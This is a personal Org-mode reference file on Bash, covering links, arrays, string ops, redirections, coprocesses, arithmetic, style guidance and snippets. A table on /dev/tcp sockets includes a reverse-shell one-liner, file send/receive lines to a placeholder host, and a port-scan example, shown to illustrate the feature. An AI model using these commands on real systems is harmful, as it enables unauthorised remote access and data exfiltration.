 - source https://github.com/wasix-org/bash/
- manual https://www.gnu.org/software/bash/manual/bash.html
- wiki https://en.wikipedia.org/wiki/Bash_(Unix_shell)
  - Author: Brian Fox
  - 1989-

- PS1's
  - ";"
    - allows you to copy multiple commands (also on rc shell)
    - PS1='%(?.%(!.#.;).%F{6}%B;%b%f) '

- https://bash-hackers.gabe565.com/
  - archive of the 2023 defunct wiki.bash-hackers.org
  - https://web.archive.org/web/20221101110416/https://wiki.bash-hackers.org/

- https://github.com/onceupon/Bash-Oneliner
- https://github.com/dylanaraps/writing-a-tui-in-bash

- https://www.commandlinefu.com/
- https://command-not-found.com/
- https://www.mulle-kybernetik.com/modern-bash-scripting/
- https://github.com/xwmx/bash-boilerplate
- https://github.com/dylanaraps/pure-bash-bible
- https://github.com/mrzool/bash-sensible
- https://github.com/joseluisq/awesome-bash-commands
- https://lobste.rs/s/iofste/please_stop_writing_shell_scripts
- Why doesn't set -e (or set -o errexit, or trap ERR) do what I expected?
  http://mywiki.wooledge.org/BashFAQ/105

- https://wizardzines.com/comics/bash-debugging/
  https://news.ycombinator.com/item?id=39568728

- LLM
  https://hackaday.com/2023/12/29/using-local-ai-on-the-command-line-to-rename-images-and-more/
  https://justine.lol/oneliners/
  https://gist.github.com/jart/bd2f603aefe6ac8004e6b709223881c0

- tool/lib: foreign function call helpers (C) https://github.com/taviso/ctypes.sh
- tool: fuse bindings (C) https://github.com/zevweiss/booze

* Language

- "Destructuring" with *read* https://stackoverflow.com/questions/1952404/linux-bash-multiple-variable-assignment

- exec CMD
  - make cmd replace the current shell, no new process is created

- Process substitution
  - careful of not forgetting an "<" in "cmd < <(cmd2)"
  - "cmd | tee >(cmd2) >(cmd3)" - sends "cmd" output to both "cmd2" and "cmd3" stdin https://tecadmin.net/bash-process-substitution/
  - bash won't wait for cmd2 or cmd3 to finish to exit
    - detailed explaination https://unix.stackexchange.com/questions/403783/the-process-substitution-output-is-out-of-the-order
    - you can hack together a ~work group~ type of thing with ~mkfifo~ https://unix.stackexchange.com/questions/351780/wait-for-bash-process-substitution-subshells

- Brace Expansion
  - support integer zero padding
  - supports a step {FROM..TO..STEP}
  - you can use an "enumeration" on a "for loop" using "for i in {this,that,theother}"

- commands run in a pipeline run at the same time
  https://mtlynch.io/zig-extraneous-build/#my-mental-model-of-bash-pipelines-is-wrong

- << EOF here document
  <<- EOF here document, ignore leading tabs
  #+begin_src sh
    $ eqn -Tpdf - <<eof | groff -me -T pdf > eqn.pdf
    .EQ
    sum from i=0 to infinity x sub i = pi over 2
    .EN
    eof
  #+end_src

- https://zwischenzugs.com/2018/10/12/eleven-bash-tips-you-might-want-to-know/
  https://zwischenzugs.com/2020/05/09/some-relatively-obscure-bash-tips/

- CTRL+z = sends a SIGTSTP aka suspends program
- jobs/bg/fg/%N

** Variables
|--------------+-----------+------------------------------------|
|              | example   | description                        |
|--------------+-----------+------------------------------------|
| OSTYPE       | linux-gnu | defined at compile type            |
| BASH_ARGV0   | foo.sh    | same as $0                         |
| BASH_ARGC    |           |                                    |
| BASH_ARGV    |           | array, all params in current stack |
| BASH_REMATCH |           | array, of =~ string match          |
| COLUMNS      |           | bash4+ number of columns in window |
| LINEs        |           | bash4+ number of rows in window    |
|--------------+-----------+------------------------------------|
** Coproc

- commands
  - simple: sequence of words
  - compound: shell constructs

- manual https://www.gnu.org/software/bash/manual/html_node/Coprocesses.html
  - coproc [NAME] cmd [redirections]
    - like "cmd &", runs async in a subshell
    - communication happens over pipes
      - NAME defaults to COPROC if none given
      - stdout in NAME[0]
      - stdin  in NAME[1]
    - "wait"

- example: progress bar https://gist.github.com/drewchapin/f43ab1a10367b1bfa53c55fe612d4245
- 10 https://www.linuxjournal.com/content/bash-co-processes
- 11 https://www.zsh.org/mla/users/2011/msg00095.html
- 18 https://www.linuxjournal.com/content/investigating-some-unexpected-bash-coproc-behavior
- 19 https://copyconstruct.medium.com/bash-coprocess-2092a93ad912
- 21 https://mbuki-mvuki.org/posts/2021-05-30-memoize-commands-or-bash-functions-with-coprocs/
  - a memoization solutions that works
  - classic solutions won't because =command substitution= $() runs in a subshell

** Types

- reserved words
- shell builtin
- numbers (? are of 2^ARCH size
- Bash does NOT support natively floating point numbers

- associative arrays
  - is always global
  - cannot be passed to a function by value
  - [[https://github.com/wasix-org/bash/blob/master/assoc.c]["are standard shell hash tables"]]
  - ops
    |-------------------+----------------|
    |        <c>        |                |
    |  declare -A arr   | init           |
    | declare -rA arr=( | init+assign+ro |
    |   ["c"]="foo")    |                |
    | arr["c"]="foobar" | assign         |
    |    ${arr["c"]}    | access         |
    |    ${!arr[@]}     | keys           |
    |     ${arr[*]}     | values         |
    | unset ${arr["c"]} | delete element |
    |     unset arr     | delete         |
    |-------------------+----------------|

- array
  - index start at 0(zero)
    - must be non-negative
  - [[https://github.com/wasix-org/bash/blob/master/array.c]["are sparse doubly-linked lists. An element's index is stored with it."]]
    - meaning that random access is O(n)
  - array ops https://tldp.org/LDP/abs/html/arrays.html
    |----------------------+----------------------------|
    | declare -a arr       |                            |
    | arr=(zero one two)   | init                       |
    | arr=([0]="zero num") | init whitespace support    |
    | arr+=(foo bar)       | append multiple            |
    | arr+=("blip bah")    | append one with whitespace |
    | ${!arr[@]}           | returns indices            |
    | ${#arr[@]}           | array size                 |
    | ${arr[0]}            | access                     |
    | ${arr[@]:1:3}        | slicing                    |
    | ${arr[@]// /_}       | substitute on each element |
    | ${arr[@]/#/foo}      | preppend "foo" to each     |
    |----------------------+----------------------------|

- string ops
  |-------------+-----------------|
  | ${foo:1:10} | slice           |
  | ${#foo}     | length          |
  | ${foo,}     | lowercase       |
  | ${foo^^}    | uppercase       |
  | ${foo^}     | capitalize      |
  | ${foo/a/b}  | substitute once |
  | ${foo//a/b} | substitute all  |
  |-------------+-----------------|

** Redirections

https://tldp.org/LDP/abs/html/io-redirection.html

- append output also to file
  - exec &>> file.txt
  - exec > >(tee file.txt) 2>&1
  - exec 2> >(tee -a file.txt)

- <filename cmd1              - alternative to cat pipe
  <filename >outfile cmd1

- Redirection Operators
  - "|&" https://stackoverflow.com/questions/35917552/what-does-the-syntax-mean-in-shell-language
  - "<>" https://bash.cyberciti.biz/guide/Opening_the_file_descriptors_for_reading_and_writing
  |-------------+------------------------------------------------|
  | ¦&          | shorthand for "2>&1 ¦"                         |
  | [n]<>word   | opens fd n at word, for r/w                    |
  | [n]<&word   | duplicates fd                                  |
  | [n]>&word   | duplicates fd                                  |
  | [n]<&-      | closes fd n (or 0)                             |
  | [n]<&digit- | moves fd digit to n (or 0), closes digit after |
  | [n]>&digit- | moves fd digit to n (or 1)                     |
  |-------------+------------------------------------------------|

- feature: open client socket
  - https://medium.com/@stefanos.kalandaridis/bash-ing-your-network-f7069ab7c5f4
  - /dev/tcp/host/port
  - /dev/udp/host/port
  - Examples:
    |---------------+-----------------------------------------------------------------------------------|
    | port scanning | timeout 0.5 echo < /dev/tcp/127.0.0.1/777/ && echo "open" ¦¦ echo "closed"        |
    | read stream   | cat < /dev/tcp/time.nist.gov/13                                                   |
    | receive file  | cat < /dev/tcp/remote.ip/1234 > file.txt                                          |
    | send file     | cat file.txt > /dev/tcp/remote.ip/4321                                            |
    | reverse shell | bash -c 'bash -i >& /dev/tcp/remote.ip/7777 0>&1'                                 |
    |---------------+-----------------------------------------------------------------------------------|
    | http request  | exec 5<>/dev/tcp/www.google.com/80                                                |
    |               | >&5 echo -e "GET / HTTP/1.1\r\nHost: www.google.com\r\nConnection: close\r\n\r\n" |
    |               | <&5 cat                                                                           |
    |---------------+-----------------------------------------------------------------------------------|
    * could have used "here documents" for the GET, using cat and >&5

** Special Parameters

|----+---------------------------|
| $_ | argument of last command  |
| $? | exit code of last command |
| $$ | self PID                  |
| $! | recent bg PID             |
|----+---------------------------|
| $# | number of arguments       |
| $0 | name of the script        |
| $* |                           |
| $@ |                           |
|----+---------------------------|

** select

- Creates an interactive selection menu

#+begin_src bash
  select var in {a..z}; do
    echo $REPLY $var
  done
  # ?# 2
  # 2 b
#+end_src

** getopt(s)

https://en.wikipedia.org/wiki/Getopts
- 1986-
- based on C's getopt

#+begin_src bash
  while getopts ":hf:" arg; do
      case $arg in
          h)  echo "help"; exit 1 ;;
          f)  echo "argument given: $OPTARG" ;;
          :)  echo "Mandatory argument missing for given flag $OPTARG"; exit 1;;
          \?) echo "Unknown flag";  exit 1;;
      esac
  done
  shift $((OPTIND - 1)) # allow positional arguments
#+end_src

** Arithmetic Evaluation $(())

- Equivalent to "let expressions"
  let arg [arg ...]

- "Evaluation is done in fixed-width *integers* with no check for overflow,
   though division by 0 is trapped and flaged as an error."
  - aka NOT floats

- "A shell variable that is null or unset evaluates to 0"

*** Operators

|-----------------------------------+--------------------------------------------|
|                <c>                |                                            |
|             OPERATOR              |                                            |
|-----------------------------------+--------------------------------------------|
|             id++ id--             | variable post-increment and post-decrement |
|             ++id --id             | variable pre-increment and pre-decrement   |
|                + -                | unary minus and plus                       |
|                **                 | exponentiation                             |
|               * / %               | multiplication, division, remainder        |
|                + -                | addition, subtraction                      |
|-----------------------------------+--------------------------------------------|
|                 !                 | logical negation                           |
|             <= >= < >             | comparison                                 |
|               == !=               | equality and inequality                    |
|                &&                 | logical AND                                |
|                ¦¦                 | logical OR                                 |
|-----------------------------------+--------------------------------------------|
|          expr?expr:expr           | conditional operator                       |
| = *= /= %= += -= <<= >>= &= ^= ¦= | assignment                                 |
|           expr1 , expr2           | comma                                      |
|-----------------------------------+--------------------------------------------|
|                 ~                 | bitwise negation                           |
|               << >>               | bitwise left and right shifts              |
|                 &                 | bitwise AND                                |
|                 ^                 | bitwise exclusive OR                       |
|                 ¦                 | bitwise OR                                 |
|-----------------------------------+--------------------------------------------|


* Tutorial: Style https://google.github.io/styleguide/shellguide.html

- Don’t brace-delimit single character shell specials / positional parameters,
  unless strictly necessary or avoiding deep confusion.
- Indentation: Indent 2 spaces. No tabs.
- Comment at the header
  #+begin_src bash
    #!/bin/bash
    #
    # Perform hot backups of Oracle databases.
  #+end_src
- Redirect errors to STDERR
  #+begin_src bash
    err() {
      echo "[$(date +'%Y-%m-%dT%H:%M:%S%z')]: $*" >&2
    }
  #+end_src
- Do not put an extension on executables, only on libraries
- Guidelines
  - When is ok
    * mostly calling other utilities
    * relatively little data manipulation
  - When NOT use
    * Scripts more than 100 lines long
    * Using non-straightfoward control flow logic
    * if performance matters

* Changelog

table of changes https://mywiki.wooledge.org/BashFAQ/061
5.0 discussion https://news.ycombinator.com/item?id=18852523

- 3.0 (2004)
  - regex? =~
- 4.0 (2009)
  - coproc
  - associative array
  - &>> and |&
  - mapfile/readarray
- 4.4 (2016)
  - mapfile/readarray -d
  - ${var@operator} "parameter transformation"
    - U uppercase
    - u capitalize
    - Q single quote
- 5.0 (2019) https://lists.gnu.org/archive/html/bug-bash/2019-01/msg00063.html
  - EPOCHSECONDS / EPOCHREALTIME
  - BASH_ARGV0 (same as $0)
- 5.1 (2020)
  - SRANDOM (32 bit random)

* Executable
- https://blog.flowblok.id.au/2013-02/shell-startup-scripts.html
#+CAPTION: initialization order for sh/bash/zsh
#+ATTR_ORG: :width 800
[[https://blog.flowblok.id.au/static/images/shell-startup-actual.png]]
* Codebases

- tui: file browser https://github.com/dylanaraps/fff/
- dns server backend https://github.com/basecamp/xip-pdns/blob/master/bin/xip-pdns
- maze solver https://gist.github.com/xsot/99a8a4304660916455ba2c2c774e623a
- web server https://github.com/dzove855/Bash-web-server
- web framework https://github.com/emasaka/shails
- web framework
  - https://github.com/cgsdev0/bash-stack/
  - https://bashsta.cc/0-index
- minecraft server
  - https://sdomi.pl/weblog/15-witchcraft-minecraft-server-in-bash/
  - https://github.com/sdomi/witchcraft
  - https://news.ycombinator.com/item?id=30347501

* Snippets

- Read keypress
  #+begin_src sh
    read -rsn1 keypress
    # -s  silent mode (not echo)
    # -n1 read 1 char
    # -r  raw mode, do not escape on backslash
  #+end_src

- Example: concatenation
  $ cut -d: -f2 studentlist.txt | xargs printf "%s@example.com"

- Common lines between files
  $ grep -Fxf file1 file2
  $ grep --fixed-strings --line-regexp --file file1 file2

- Not common lines
  $ grep -vFxf file1 file2

#+NAME: scramble string
#+begin_src bash
echo -n "${1}" | fold -w1 | sort -R | xargs -ILETTER echo -n LETTER

echo -n "${1}" | while read -n1 -r letter; do
     echo $letter
done | sort -R | xargs -ILETTER echo -n LETTER
#+end_src

#+begin_src bash
  die() { echo $1 >&2; exit 1; } # some_command || die "oh no!"
#+end_src

#+begin_src bash
  for cmd in sgr0 bold; do
    tput $cmd
    for i in $(seq 0 7); do
      for j in $(seq 0 7); do
        tput setaf $i; tput setab $j; echo -n " $i,$j "
      done
      tput sgr0; echo; tput $cmd
    done
  done
#+end_src

* Gotchas
- for i in *.baz
  - if no .baz in dir it will run on *.baz
  - zsh: errors
  - fish: does nothing
- some language constructs spawn *subshells* (eg: pipelining)
- piped commands run/start all at the same time
  - if one fails the rest will ran regardless if "pipefail" is set

